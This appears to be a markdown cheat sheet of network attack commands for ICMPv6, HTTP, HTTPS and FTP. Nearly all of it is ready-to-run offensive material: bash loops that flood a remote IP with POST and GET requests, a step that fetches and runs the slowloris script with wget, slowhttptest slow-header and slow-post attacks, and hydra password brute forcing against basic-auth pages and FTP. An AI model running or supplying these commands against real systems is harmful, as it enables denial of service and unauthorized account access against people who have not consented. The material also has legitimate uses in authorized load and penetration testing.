 ### ICMPv6

```bash
# Send random ICMPv6 types
randicmp6 $interface $destination_domain
```

### HTTP

```bash
# HTTP load generation
siege -b -i http://$url

# HTTP Scan
nikto -host http://$remote_ip_or_domain_name

# HTTP Post Flood (300 bytes random data)
for (( i = 0; i <=500000; i++)); do curl http://$remote_ip/ -d  `< /dev/urandom tr -dc _A-Z-a-z-0-9 | head -c 300`; done

# HTTP Get Flood (300 bytes random data)
for (( i = 0; i <=500000; i++)); do curl http://$remote_ip/ -G -d  `< /dev/urandom tr -dc _A-Z-a-z-0-9 | head -c 300`; done

# HTTP slow request (slowloris)
"(first time) wget http://ha.ckers.org/slowloris/slowloris.pl
./slowloris.pl $remote_ip -port 80 -num 500"

# HTTP slow headers
slowhttptest -H -c 10000 -g -/etc/log/slowloris-headers-statistics.html -i 10 -l 600 -r 200 -s 8192 -w 1 -y 1024 -x 10 -p 10 -u http://$remote_ip/

# HTTP slow post
slowhttptest -R -l 600 -p 10 -c 10000 -g -/etc/log/statistics.html -a 10 -b 3000 -r 500 -t HEAD -u http://$remote_ip
```

### HTTPS

```bash
# HTTPS login brute force attack on *basic* authentication page (not a web form)
hydra -l $username -P /usr/share/wordlists/sqlmap.txt -S $remote_ip http-get
# Remove the -S if page is not HTTPS
# Note : latest version of hydra requires square brackets around the IP addy.
```

### FTP

```bash
# FTP login brute force attack
hydra -l $username -P /usr/share/wordlists/sqlmap.txt ftp://$remote_ip
```
